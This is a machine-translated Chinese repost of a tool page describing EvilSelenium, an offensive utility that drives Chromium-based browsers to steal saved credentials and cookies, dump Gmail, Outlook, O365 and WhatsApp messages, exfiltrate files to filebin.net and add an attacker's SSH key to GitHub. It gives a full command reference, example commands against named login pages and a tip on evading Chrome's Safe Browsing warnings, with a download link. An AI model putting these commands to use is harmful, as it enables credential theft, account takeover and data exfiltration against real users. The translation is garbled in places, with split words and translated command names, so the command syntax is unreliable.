

# EvilSelenium:一个将 Selenium 武器化以攻击基于 Chromium 的浏览器的工具

> 原文：<https://kalilinuxtutorials.com/evilselenium/>

**EvilSelenium** 是一个新项目，将 Selenium 武器化以滥用基于铬的浏览器。目前的特点是:

*   窃取存储的凭据(通过自动填充)
*   偷饼干
*   抓取网站截图
*   转储 Gmail/O365 电子邮件
*   转储 WhatsApp 消息
*   下载和导出文件
*   向 GitHub 添加 SSH 密钥

或者扩展现有功能以满足您的需求(例如，从用户的 GDrive/OneDrive 下载文件)。

## 使用

**EvilSelenium.exe/？
/help–显示此帮助菜单。
设置:
/安装–安装 chrome driver&Selenium web driver。运行一次。
全局:(接受每个命令)
/browser dir[appdata _ local _ routing]–使用自定义浏览器，输入应该是%appdatalocal% dir 内的路由(例如“Microsoft \ Edge”)
RECON:
/enumsavedsites[out _ path]–通过截图检查哪些网站保存了密码。
/截图【网站】【out _ path】–给定网页截图。
凭证:
/自动运行——从常用网站提取保存的凭证。
/dynamic id[log in _ page][username _ ID][password _ ID]–从网站提取保存的凭据，提供用户名字段 ID &密码字段 ID。
/dynamic name[log in _ page][username _ name][password _ name]–从网站提取保存的凭据，提供用户名字段名称值&密码名称值。
/dynamic name 2[log in _ page][username _ position][password _ position][username _ name][password _ name]–从网站提取保存的凭据，提供用户名字段名称值、密码名称值及其位置。
COOKIES:
/COOKIES[网站]–抓取给定网站的 COOKIES。
模块:
/download[file _ URL][seconds]–下载文件并指定等待下载完成的时间。文件扩展名不应该是可执行的。
/exfil[local _ file][seconds]–在 filebin.net 上上传文件并输出下载链接。
/Gmail[out _ path][num _ of _ emails]–如果用户通过身份验证，则从 mail.google.com 获取电子邮件。最多 50 封电子邮件。
/outlook[out _ path][num _ of _ emails]–如果用户通过身份验证，则从 Outlook 获取电子邮件。
/O365[输出路径][电子邮件数量]–如果用户通过验证，则从 O365 Outlook 获取电子邮件。
/github[key]–如果用户通过验证，将您的 SSH 密钥添加到 Github。
/whatsapp[out _ path]–如果用户通过验证，则获取 Whatsapp 消息(BETA)。**

# 设置

`**/install**`命令将下载 Chrome 驱动和 Selenium WebDriver，这是必要的需求。EvilSelenium 将在 Chrome 版本 100-90 上运行。

**在 Windows 10 上测试，Chrome v97 & v90。**

**EvilSelenium.exe/安装**

# 全局配置

默认情况下，EvilSelenium 将尝试使用 Google Chrome 的用户数据文件夹来检索数据，但也支持其他基于 Chromium 的浏览器。
为了使用不同的基于 Chrome 的浏览器，你应该在`**%localappdata%**`目录中的浏览器路由后添加`**/browserdir**`。以下是一些常见浏览器的示例(应该添加到任何 CLI 命令中):

1.  **勇敢的**–`**/browserdir BraveSoftware\Brave-Browser**`
2.  **微软 Edge**–`**/browserdir Microsoft\Edge**`
3.  **维瓦尔第**–`**/browserdir Vivaldi**`

# 侦察舱

**`/enumsavedsites`**——这个会截图 chrome://设置/密码

`**/screenshot**`–截图任意网站。如果用户通过了网站认证，那么您将获得经过认证的屏幕截图:)。

# 凭证模块

**重要提示:**凭证模块将**删除 cookie**以便从自动填充中窃取凭证。理想情况下，如果要导出 cookies，应该在最后使用凭证模块。

`**/autorun**`–常用网站的预建模板。我会继续补充更多。

**`/dynamicid`**–提供登录 URL 以及用户名输入字段的 ID 和密码字段的 ID。这相当于 document.getElementById()。

`**/dynamicname**`–如果字段没有 id，则提供字段的名称值。它将选择名称值的第一个索引。这相当于 document . getelementsbyname()[0]. value。

**`/dynamicname2`**–提供字段的名称值及其索引位置。这相当于 document . getelementsbyname()[x]。值，其中 x 是提供的位置。

# cookie 模块

`**/cookies**`–从指定网站转储 cookies。

# 其他模块

这些是我构建的附加模块，用来演示使用 Selenium 可以做什么样的操作。

`**/download**`–下载文件&指定等待下载的时间。下载前应该给文件附加一个不可执行的文件扩展名，以避开 Chrome 的安全浏览提示。

`**/exfil**`–在 filebin.net 上上传文件&指定等待上传完成的时间。一旦上传完成，文件的下载链接被写入。

`**/gmail**`–如果用户通过验证，则从 mail.google.com 获取电子邮件。最多 50 封电子邮件。

`**/outlook**`–如果用户通过验证，则从 Outlook 获取电子邮件。

`**/o365**`–如果用户通过验证，从 O365 Outlook 获取电子邮件。

`**/github**`–如果用户通过验证，将您的 SSH 密钥添加到 Github。

`**/whatsapp**`–如果用户通过验证，则获取 Whatsapp 消息(测试版)。

# 命令示例

**EvilSelenium.exe/截图 https://mail.google.com c:\ users \ Mr . d0x \ downloads
EvilSelenium.exe/dynamic id https://www.hybrid-analysis.com/login log in _ email log in _ password
EvilSelenium.exe/dynamic name https://linkedin.com session _ key session _ password**

[**Download**](https://github.com/mrd0x/EvilSelenium)